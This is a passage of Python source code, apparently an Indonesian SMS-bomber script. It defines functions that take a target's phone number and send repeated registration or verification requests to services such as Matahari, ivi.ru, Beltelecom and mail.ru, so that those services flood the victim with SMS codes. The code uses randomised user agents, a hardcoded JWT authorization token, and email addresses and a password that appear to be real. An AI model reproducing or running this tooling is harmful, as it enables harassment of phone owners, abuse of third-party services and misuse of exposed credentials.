      b = json.loads(a)["code"]
     if b == 0:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}RupiahCepat{kan} OK")
     else:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}RupiahCepat{kun} Gagal abang jago")
 def matahari(nom):
     r = ru.Session()
     hd = {
'Host':'thor.matahari.com',
'content-length':'235',
'modulecode':'MR',
'origin':'https://www.matahari.com',
'authorization':'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJtb2R1bGVDb2RlIjoiTVIiLCJ1c2VyVHlwZSI6IjEiLCJleHAiOjE1NDM2NjA5MDYsInVzZXJOYW1lIjoiS0Zpb2ViMWhveU9FRDBERWQiLCJ1c2VySWQiOiJwcm9kdWN0aW9uNDYxOTAyNjQ0NSIsImp0aSI6IjFmMjI3NzE5LTY4OTMtNDhjYy1iNmQzLWY2OTkzMWMzMDIwYSIsImlhdCI6MTU0MzY1NzMwNn0.6XdrUX9QzD0Ld2eOJep7QnSwVjfFyjq-v7P4w0lGG9M',
'content-type':'application/json',
'accept':'application/json, text/plain, */*',
'clientid':'mds_mweb',
'user-agent':ua.random ,
'sessionid':'1599562523019',
'save-data':'on',
'referer':'https://www.matahari.com/register',
'accept-encoding':'gzip, deflate, br',
'accept-language':'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'
     }
     dat = {"emailAddress":"ubaydillahahyar@gmail.com","firstName":"Bapak","lastName":"Gile","mobileNumber":"0"+nom,"mccCardNumber":"","password":"ubetubed","referralCode":"","dateOfBirth":"03-01-1999","gender":"Male","registrationType":"N"}
     datj = json.dumps(dat)
     for x in range(5):
       yu = r.post("https://thor.matahari.com/MatahariMobileAPI/register",headers=hd,data=datj)
     if 'Success' in yu.text:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Matahari{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Matahari{kun} Gagal abang jago")
 def iviru(nom):
     r = ru.Session()
     hd = {'user-agent':ua.random}
     dat = {'phone':'62'+nom}
     for x in range(2):
       hlo = r.post("https://api.ivi.ru/mobileapi/user/register/phone/v6",headers=hd,data=dat)
     if 'error' in hlo.text:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}ivi.ru{kun} Gagal abang jago")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}ivi.ru{kan} OK")
 def beltelecom(nom):
     r = ru.Session()
     hd = {'user-agent':ua.random}
     dat = {'phone':'62'+nom}
     ho = r.post("https://myapi.beltelecom.by/api/v1/auth/check-phone?lang=ru",headers=hd,data=dat)
     if ('error' in ho.text) or ('Too many' in ho.text):
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Beltelecom{kun} Gagal abang jago")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Beltelecom{kan} OK")
 def mailru(nom):
     r = ru.Session()
     hd = {
'user-agent':ua.random ,
'Content-Type':'application/json',
}
     dat = json.dumps({
'phone':'62'+nom,
'api':2,
'email':'akuntesnuyul@gmail.com',